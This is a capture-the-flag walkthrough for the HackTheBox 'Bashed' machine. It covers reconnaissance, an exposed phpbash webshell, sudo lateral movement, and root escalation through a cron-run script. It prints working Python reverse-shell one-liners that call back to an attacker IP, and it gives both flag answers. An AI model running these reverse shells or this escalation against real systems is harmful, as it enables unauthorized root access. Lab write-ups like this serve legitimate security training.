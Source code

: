 # Bashed

<div align="left"><figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt="" width="75"><figcaption><p>hackthebox.com - © HACKTHEBOX</p></figcaption></figure></div>

🔗 [Bashed](https://www.hackthebox.com/machines/bashed)

### Task 1 - Deploy the machine

🎯 Target IP: `10.129.236.215`

Create a directory on the Desktop with the machine's name, and inside this directory, create another directory to store the materials and outputs needed to run the machine, including the scans made with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.129.236.215 bashed.htb" >> /etc/hosts

mkdir -p htb/bashed.htb
cd htb/bashed.htb
mkdir {nmap,content,exploits,scripts}
# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 bashed.htb
PING bashed.htb (10.129.236.215) 56(84) bytes of data.
64 bytes from bashed.htb (10.129.236.215): icmp_seq=1 ttl=63 time=67.3 ms
64 bytes from bashed.htb (10.129.236.215): icmp_seq=2 ttl=63 time=64.2 ms
64 bytes from bashed.htb (10.129.236.215): icmp_seq=3 ttl=63 time=79.4 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target should be a \*nix system, while Windows systems usually have a TTL of 128 secs.

### 2.1 - How many open TCP ports are listening on Bashed??

```bash
nmap -p0- -sS -Pn -vvv bashed.htb -oN nmap/tcp_port_scan
```

```bash
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sS</td><td>SynScan</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there's 1 open TCP port on the machine: 80

{% hint style="info" %}
1
{% endhint %}

### 2.2 - What is the relative path on the webserver to a folder that contains phpbash.php??

Now, we take more precise scan utilizing -sCV flags to retrieve versioning services and test common scripts.

```bash
nmap -p80 -sS -Pn -n -v -sCV -T4 bashed.htb -oG nmap/port_scan
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
```

#### Port 80

Browsing webserver on port 80 via browser, that contains a web php bash.

<figure><img src="../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>

Analyzing source code we don't found nothing of interesting, than we can discover more info about website using whatweb and do directory enumeration using gobuster.

```bash
whatweb bashed.htb
http://bashed.htb [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.236.215], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]
```

```
gobuster dir -u http://bashed.htb -w /usr/share/wordlists/dirb/common.txt
```

<div align="left"><figure><img src="../.gitbook/assets/image (317).png" alt=""><figcaption></figcaption></figure></div>

Very good, we've found interisting web dir such as /dev and /uploads, exploring them we can answer at our question.

<figure><img src="../.gitbook/assets/image (318).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
/dev
{% endhint %}

### 2.3 - What user is the webserver running as on Bashed?

The /dev directory contains two php webshell, more probably phpbash.min.php is a minimal bash or beta version while phpbash.php is full version.

In both cases, we immediately observe that the user in use is the same.

<figure><img src="../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
www-data
{% endhint %}

### Task 3 - Find user flag

### 3.1 - Submit the flag located in the arrexel user's home directory.

Navigating into file system is more simple discover users home directories and arrexel user's flag.

<figure><img src="../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

<details>

<summary>🚩 Flag 1 (user.txt)</summary>

b2e6af7c997eba350b6cf95ad88240cb

</details>

### 3.2 - www-data can run any command as a user without a password. What is that user's username?

Using sudo -l we can see that www-data can run all commands on bashed as a user scriptmanager.

<figure><img src="../.gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
scriptmanager
{% endhint %}

### 3.3 - What folder in the system root can scriptmanager access that www-data could not?

Going into root dir / we can launch ls -l and see all permissions regarding directories.

<div align="left"><figure><img src="../.gitbook/assets/image (322).png" alt=""><figcaption></figcaption></figure></div>

{% hint style="info" %}
/scripts
{% endhint %}

### 3.4 - What is filename of the file that is being run by root every couple minutes?

"Every couple minutes" is an hint to understand possibile route.

But, we decide to give a reverse shell on our attacker machine to optimize our work, to do it we need to make us in listening mode using netcat `nc -lvnp 1339` and execute a python script on web shell.

```python
export RHOST="10.10.14.6";export RPORT=1339;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

<div align="left"><figure><img src="../.gitbook/assets/image (323).png" alt=""><figcaption></figcaption></figure></div>

Remembering the question's hint and the last task, where only the scriptmanager can access the /scripts folder, we can access it as the scriptmanager user spawning a a bash shell

```bash
sudo -u scriptmanager python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Trying to use sudo -l commands, the system asks us for a password that we don't know.

Now, we've permissions access to /scripts dir, where we found two files:

<div align="left"><figure><img src="../.gitbook/assets/image (324).png" alt=""><figcaption></figcaption></figure></div>

Additionally, the program `test.py` appears to be scheduled to execute almost every minute, based on the last access time of `test.txt`. From this, we can infer that there may be a cron job owned by root that automatically runs `test.py` every minute. We can confirm this by renaming `test.txt` (e.g., to `test.txt.old`) and observing that a new `test.txt` file is created after a minute or so."

This is useful because we can modify the contents of `test.py` to include reverse shell code, which would then execute with root privileges.

Next, let's create a new file named `test.py` on our Kali box and insert the same reverse shell code we used earlier. We'll then transfer this file to the target 'Bashed' machine.

```python
echo "import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('10.10.14.6',4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(['/bin/sh','-i']);" > test.py
```

{% hint style="info" %}
test.py
{% endhint %}

### Task 4 - Find root flag

### 4.1 - Submit the flag located in root's home directory.

Immediately before or at least within two minutes we listen with netcat on the attacker machine, and we obtain a shell with root permissions.

<div align="left"><figure><img src="../.gitbook/assets/image (327).png" alt=""><figcaption></figcaption></figure></div>

<details>

<summary>🚩 Flag 2 (root.txt)</summary>

40ca417765210f39b12b2d78813ebcfe

</details>
